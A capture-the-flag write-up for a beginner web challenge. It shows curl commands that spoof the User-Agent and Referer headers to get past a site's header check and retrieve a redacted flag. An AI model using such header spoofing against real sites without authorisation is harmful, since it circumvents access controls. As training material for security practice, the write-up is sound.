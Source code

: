 # Don't bump your head(er)

Point: 40 

## Category

Web-Exploitation

## Question

Try to bypass my security measure on this site! http://165.227.106.113/header.php

## Hint

View source of the web page is useful.


## Solution
Usual recon of the webpage is done such as view sauce, network traffic and cookies. Only an interesting comment was found in the comment section of the HTML with an agent name for the header request to be done with. **Sup3rS3cr3tAg3nt**

Curl is a great tool for transferring data from or to a server. It's also great to manipulate request headers. Manual page of curl can be found here. https://curl.se/docs/manpage.html

A curl request was done to the web page and got a response back as follow.
```console
% curl http://165.227.106.113/header.php
Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: curl/7.64.1
<!-- Sup3rS3cr3tAg3nt  -->
```

So the curl command was constructed with a modified User-Agent as below. 
```console
curl -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php 
Sorry, it seems as if you did not just come from the site, "awesomesauce.com".
<!-- Sup3rS3cr3tAg3nt  -->
```

The response above wanted the request traffic to be referred from a site called awesomesauce.com. So the curl command is further constructed to modify the referer in the header reqeust as below.
```console
% curl -e 'awesomesauce.com' -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php
Here is your flag: flag{redacted}
<!-- Sup3rS3cr3tAg3nt  -->
```
## Improvement

None